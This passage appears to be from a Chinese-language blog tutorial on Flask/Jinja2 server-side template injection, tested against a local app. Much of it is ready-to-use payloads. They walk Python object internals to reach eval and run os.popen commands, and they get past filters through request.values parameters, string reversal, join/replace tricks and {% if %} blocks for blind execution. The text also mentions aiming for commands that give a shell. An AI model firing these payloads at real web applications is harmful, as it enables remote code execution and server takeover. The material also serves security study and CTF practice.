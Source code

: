 <img src='https://0xfay.github.io/public/image/233016.png'>

`request.value`(接受所有传参方式)

payload:

`http://127.0.0.1:5000/login?name=%7B%7B().__class__.__mro__%5B1%5D.__subclasses__()%5B146%5D.__init__.__globals__%5Brequest.values.bu%5D%5Brequest.values.ev%5D(request.values.cmd)%7D%7D`

再通过post传参：

`cmd=__import__("os").popen('whoami').read()&bu=__builtins__&ev=eval`

<img src='https://0xfay.github.io/public/image/235656.png'>

(但是由于flask默认的方式是get，需要在路由中加入`methods=["GET","POST"]`才能通过post传参，否则会出现`The method is not allowed for the requested URL.`的错误。)

<img src='https://0xfay.github.io/public/image/000114.png'>



- `replace()`方法(字符串替换以绕过指定字符串的过滤)

挺好理解，不多解释，上图：

<img src='https://0xfay.github.io/public/image/003500.png'>




- `join()`方法(同样是绕过指定字符串的过滤)

用`join()`方法向字符串中加入字符(和字符串拼接差不多)

<img src='https://0xfay.github.io/public/image/003948.png'>




- 字符串反向(同样是绕过指定字符串的过滤)

也很好理解，上图

<img src='https://0xfay.github.io/public/image/004317.png'>




- 控制语句(绕过`{{}}`的过滤)

payload:

`http://127.0.0.1:5000/login?name={|%%20if%20%27d%27%20in%20%20%27%27.__class__.__mro__[1].__subclasses__().__getitem__(146).__init__.__globals__[%27__snitliub__%27[::-1]][%27eval%27](%27__import__(%22os%22).popen(%22whoami%22).read()%27)%20%|}success{|%endif%|}`

用if语句去执行命令，成功即返回success(由于没有回显，所以最好是能直接getshell的那种命令，另外，感觉这个和sql盲注里爆破库名之类的挺相似的，也可以用于暴破一些返回的信息吧)

<img src='https://0xfay.github.io/public/image/005358.png'>


